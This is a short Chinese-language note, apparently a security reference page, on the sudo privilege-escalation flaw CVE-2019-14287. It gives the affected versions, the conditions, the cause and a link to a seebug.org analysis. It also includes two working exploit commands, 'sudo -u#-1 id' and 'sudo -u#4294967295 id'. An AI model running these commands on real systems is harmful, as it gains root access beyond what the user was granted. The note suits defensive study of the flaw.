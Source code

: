 ## 影响版本

```
版本号 < 1.8.28的Sudo版本
```

### 条件

需要当前用户在/etc/sudoers中sudo权限中

知道用户密码

### 成因

默认的UID是0，如果指定的UID非-1的时候才会使用指定用户执行命令

## 提权方法

```bash
sudo -u#-1 id
sudo -u#4294967295 id
```

[CVE-2019-14287（Linux sudo 漏洞）分析 (seebug.org)](https://paper.seebug.org/1057/#2)